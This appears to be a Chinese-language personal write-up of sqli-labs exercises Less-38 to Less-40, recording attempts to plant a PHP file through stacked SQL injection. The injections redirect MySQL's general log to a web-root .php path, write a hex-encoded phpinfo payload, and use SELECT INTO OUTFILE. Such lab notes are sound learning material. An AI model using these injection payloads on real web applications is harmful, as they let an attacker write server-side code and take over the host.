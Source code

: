 ```sql
?id=0';set global general_log='on';set global general_log_file='/var/www/html/Less-38/4.php';select 1,2, 0x3c3f3d706870696e666f28293b3f3e;%23
```

我测，这里为什么写进去没有解析🤯

记录一下，sql堆叠注入通过日志写入木马流程

```sql
# 打开日志记录
set global general_log='on';
# 设置日志文件
set global general_log_file='/var/www/html/Less-38/4.php';
# 写入恶意字符串
select 1,2, 0x3c3f3d706870696e666f28293b3f3e;
```

## Less-39

整型注入，尝试日志写马子还是失败了

```sql
?id=0;set global general_log='on';set global general_log_file='/var/www/html/Less-39/1.php';select 1,2, 0x3c3f3d706870696e666f28293b3f3e;%23
```


我直接进容器调试

破案，mysql写的文件没有执行权限，我直接一个高权限战士

```bash
docker exec -it sqli-lab /bin/sh
chmod 777 /var/www/html/Less-39/*.php
```

![76](/medias/sqli-labs/76.png)

这又是什么奇怪的报错 🤯

![77](/medias/sqli-labs/77.png)

重新写试试，还是不行，开溜！

```sql
?id=0;select '<?=phpinfo();?>' into outfile '/var/www/html/Less-39/2.php';
```

![78](/medias/sqli-labs/78.png)

## Less-40

通过页面回显可以测试出后台id是`')`包裹的

```sql
?id=1');
```
